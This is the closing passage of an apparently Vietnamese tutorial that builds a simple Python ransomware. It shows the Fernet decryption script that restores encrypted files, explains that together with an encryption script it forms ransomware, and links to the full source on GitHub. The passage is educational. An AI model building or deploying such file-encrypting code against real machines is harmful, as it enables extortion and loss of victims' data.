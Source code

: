 ```py
	key = deal.read()

for file in files:
	with open(file, "rb") as f:
		content = f.read()

	content_decrypted = Fernet(key).decrypt(content)

	with open(file, "wb") as f:
		f.write(content_decrypted)

print("File đã được giải mã!")
```

Sau khi chúng ta chạy chương trình này, chúng ta có thể đọc lại nội dung gốc của các file đã bị mã hóa.

![file1-decrypted](/img/file1-decrypted.png)

Chúng ta cũng có thể xem lại các file ảnh và video.

![pic-decrypted](/img/pic-decrypted.png)

___

# Kết luận
Đó là 2 chương trình mã hóa và giải mã. 2 chương trình đó sẽ kết hợp lại thành 1 con *ransomware*. Đây chỉ là con ransomware rất đơn giản và vô hại, nếu như nạn nhân có 1 ít kiến thức về mã hóa và giải mã thì họ sẽ không có vấn đề gì trong việc giải mã các file bị mã hóa.

Nhưng lõi của con ransomware cũng giống như lõi của các con ransomware khác: Khả năng *tìm* và *mã hóa* các file trên máy tính và khả năng *giải mã* các file đó.

Đó là cách vận hành của mọi ransomware.

> Bạn có thể đọc mã nguồn của dự án này tại [đây](https://github.com/namberino/simple-ransomware)
